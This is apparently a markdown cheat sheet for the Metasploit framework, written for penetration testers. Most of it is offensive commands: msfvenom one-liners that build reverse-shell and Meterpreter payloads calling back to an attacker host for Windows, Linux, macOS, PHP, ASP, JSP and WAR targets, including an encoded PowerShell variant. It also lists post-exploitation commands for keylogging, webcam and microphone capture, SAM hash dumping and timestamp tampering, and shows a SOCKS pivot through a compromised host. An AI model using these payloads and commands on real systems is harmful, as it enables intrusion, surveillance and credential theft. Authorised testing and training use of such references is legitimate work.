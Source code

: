 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Start w/ RC File | <code> msfconsole -r meta_config </code>
Example RC file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run a rc file | <code> resource [location of RC file] </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> [location]/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> [location]/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client

> **Database** 

Commands | db_connect, db_disconnect, db_driver, db_status, db_export
Data | hosts, vulns, services, creds, loot, notes
Populate Hosts/Ports | use auxiliary/scanner/protscan/[tcp or syn] <br> use auxiliary/discovery/udp_sweep <br> db_nmap
Manually | hosts --add/--delete [host]<br> services --add/--delete -p [port] -r [proto] -s [name] [host1, host2,...] <br> notes --add/--delete -r [type] -n '[note text]' [host1, host2,...]
Import | db_import Nmap XML (-oX option) Nessus XMLv2 or XMLv2 (.nessus)
Hosts Help and Search | hosts -h <br> host -S linux -R (adds to RHOST)
Vulnearabilities | vulns -h <br> vulns -S RPC <br> vulns -P 445

> **MSFVenom**

Example | <code> msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe > /tmp/file.exe </code>
Help | msfvenom --help-formats

**Windows:**

Binary | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f exe > shell.exe </code>
Powershell Reflection | <code> msfvenom -p windows/meterpreter/reverse_https lhost=[attacker] lport=[attackerport] -f psh-reflection -a x86 > output.txt </code> 
Powershell Command | <code> msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_https LHOST=[attackerIP] LPORT=[attackerPort] -e x86/shikata_ga_nai –f psh-cmd </code> 

**Linux:**

Binary | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f elf > shell.elf </code>
Python | <code> msfvenom -p cmd/unix/reverse_python LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.py </code>
Bash | <code> msfvenom -p cmd/unix/reverse_bash LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.sh </code>
Perl | <code> msfvenom -p cmd/unix/reverse_perl LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.pl </code> 

**Mac:** 

Binary | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f macho > shell.macho </code>

**Web:**

PHP | <code> msfvenom -p php/meterpreter_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.php <br> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </code>
ASP | <code>  msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f asp > shell.asp </code> 
JSP | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.jsp </code>
WAR | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f war > shell.war </code>

**Shellcode:**

Linux | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Windows | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Mac | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>

> **Meterpreter**

Get system info | sysinfo
Read Registry | reg
Change local directory | lcd
Download and Upload | download/upload
Make/Remove Directory | mkdir/rmdir
Edit a file | edit
Get the PID | getpid
Get the users ID | getuid
process list | ps
Drop to Command Prompt | Shell
Terminate Program | kill [pid]
Run a program | execute [program]
Change process | migrate [PID]
Display Routing Table | route
TCP relay | portfwd add -l 1111 -p 80 -r Target 2
Screen Shot | screenshot -p [filename.jpg]
List Webcams and take a picture | webcam_list, webcam_snap
Record Microphone | record_mic -d [Seconds]
Keylogger | keyscan_start, keyscan_stop, keyscan_dump
modules | data/meterpreter/
Load Module | use [last component of dll name]
priv modules | hashdump (SAM database), timestomp (MACE dates/times)
Port Scanner | meterpreter > load msfmap <br> meterpreter > msfmap

> **Route and Proxychain**

* Metasploit:

{% highlight bash %}
meterpreter > ipconfig 
Broadcom 440x 10/100 Integrated Controller - Packet Scheduler Miniport
Hardware MAC: 00:0b:db:1d:d3:2b
IP Address : 192.168.15.3
Netmask : 255.255.255.0

meterpreter > run arp_scanner -r 192.168.15.1/24
[*] ARP Scanning 192.168.15.1/24
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff

route add 192.168.15.1 255.255.255.0 1

msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.15.1
RHOSTS => 192.168.15.1
msf auxiliary(tcp) > set PORTS 1-1024
PORTS => 1-1024

msf auxiliary(tcp) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options
msf auxiliary(socks4a) > set SRVHOST 159.203.173.82
SRVHOST => 159.203.173.82
msf auxiliary(socks4a) > run
{% endhighlight %}

* Proxy Chain Configuration:

{% highlight bash %}
vi /etc/proxychains.conf 
#comment out DNS
#Change sock4 to:
socks4 [IP of Attack Machine] [PORT of attach machine]

proxychains nmap -sT -P0 10.0.0.10

{% endhighlight %}

> **Resources**

* [Common Commands](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#common-metasploit-modules)






